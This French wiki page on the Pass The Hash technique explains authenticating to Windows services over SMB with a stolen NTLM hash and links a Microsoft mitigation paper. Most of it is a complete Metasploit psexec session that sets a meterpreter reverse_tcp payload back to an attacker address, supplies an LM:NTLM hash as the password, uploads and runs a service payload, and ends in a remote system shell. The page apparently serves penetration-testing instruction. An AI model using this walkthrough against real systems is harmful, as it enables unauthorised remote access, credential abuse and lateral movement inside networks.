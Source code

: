 ```yaml
---
title: Pass The Hash
permalink: /Pass_The_Hash/
---
```


La méthode **Pass The Hash** consiste à utiliser le hash NTLM d'un utilisateur pour s'authentifier auprès d'un service. Cette attaque permet de s'authentifier sans connaître le mot de passe en clair. Elle est notamment très utile dans les phases de déplcament latéral.

Utilisation
-----------

Il est nécessaire d'avoir récupéré les informations suivantes:

-   Le nom de l'utilisateur.
-   Le domaine auquel il appartient (sauf s'il s'agit d'un utilisateur local).
-   Le [hash NTLM](/hash_NTLM "wikilink") du mot de passe de l'utilisateur.

Avec ces éléments il est alors possible d'executer des commandes sur différents serveurs via le protocole [SMB](/SMB "wikilink").

Mitigation
----------

Voir <https://download.microsoft.com/download/7/7/a/77abc5bd-8320-41af-863c-6ecfb10cb4b9/mitigating%20pass-the-hash%20(pth)%20attacks%20and%20other%20credential%20theft%20techniques_english.pdf>

PSEXEC
------

### Metasploit

Il est possible d'utiliser le module psexec de metasploit pour déployer un meterpreter[1]

``` bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
LHOST => 192.168.57.133
msf exploit(psexec) > set LPORT 443
LPORT => 443
msf exploit(psexec) > set RHOST 192.168.57.131
RHOST => 192.168.57.131
msf exploit(psexec) > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'Administrator'...
[*] Uploading payload...
[*] Created \KoVCxCjx.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.131[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.131[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (XKqtKinn - "MSSeYtOQydnRPWl")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \KoVCxCjx.exe...
[*] Sending stage (719360 bytes)
[*] Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1045)

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```

[Catégorie:Méthodologies](/Catégorie:Méthodologies "wikilink")

[1] [1](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)